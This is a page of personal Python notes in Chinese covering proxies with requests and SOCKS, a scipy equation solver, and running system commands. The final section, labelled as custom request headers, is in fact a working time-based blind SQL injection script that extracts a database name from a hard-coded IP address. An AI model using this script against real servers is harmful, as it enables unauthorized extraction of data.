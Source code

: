 # python

## requests 模块 使用代理

requests使用代理要比urllib简单多了…这里以单次代理为例. 多次的话可以用session一类构建.

如果需要使用代理，你可以通过为任意请求方法提供 proxies 参数来配置单个请求:

```python
import requests

proxies = {
  "http": "http://10.10.1.10:3128",
  "https": "http://10.10.1.10:1080",
}

r=requests.get("http://icanhazip.com", proxies=proxies)
print r.text


```



### 使用全局代理



```python
import socks
import socket
from urllib import request
from urllib.error import URLError

socks.set_default_proxy(socks.SOCKS5, '127.0.0.1', 9742)
socket.socket = socks.socksocket
try:
    response = request.urlopen('http://httpbin.org/get')
    print(response.read().decode('utf-8'))
except URLError as e:
    print(e.reason)
```



## numpy

### 解多元一次方程

> x+y=10
> x+z=20
> y+z=24

```python
import numpy as np
#导入指定成员
from scipy.linalg import solve 
a = np.array([[1, 1,0], [1,0,1], [0,1, 1]])
b = np.array([10, 20, 24])
x = solve(a, b)
print(x)
```



## python 装饰器

 https://foofish.net/python-decorator.html 



## python命令行

### 命令行参数读取

`sys.argv[x]`



## Python执行系统命令并获得输出




```python
import os
 
print(os.popen('uptime').read())

 
```



```python
import subprocess
 
res = subprocess.Popen('uptime',shell=True,stdout=subprocess.PIPE,stderr=subprocess.PIPE,close_fds=True)
result = res.stdout.readlines()
 
```



## 自定义请求头



```python
import requests
import hackhttp 
import urllib
import socket

ip = '111.186.57.61'
port = 10601

def send_raw(raw):

    try:
        with socket.create_connection((ip, port), timeout=2) as conn:
            conn.send(bytes(raw,encoding="ascii"))
            res = conn.recv(10240).decode()

    except:
        return True
    
    return False



def rawhttp(sql):
    sql=urllib.parse.quote(sql)
    burp0_url = "http://111.186.57.61:10601/?age={}".format(sql)
    raw='''GET /?age={} HTTP/1.1
Host: 111.186.57.61:10601
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
Content-Length: 0
Content-Length: 0

'''.format(sql).replace("\n","\r\n")
    return send_raw(raw)


l='0123456789ABCDEF'
result=""
for j in range(10):
    for i in l:
        sql="if((select substr(hex(database()),{},1))=char({}),sleep(10),0)".format(j+1,ord(i))
        if rawhttp(sql):
            result+=i
            print(result)
            break
        else :
            print("第{}个字符不是{}".format(j+1,i))
        




```

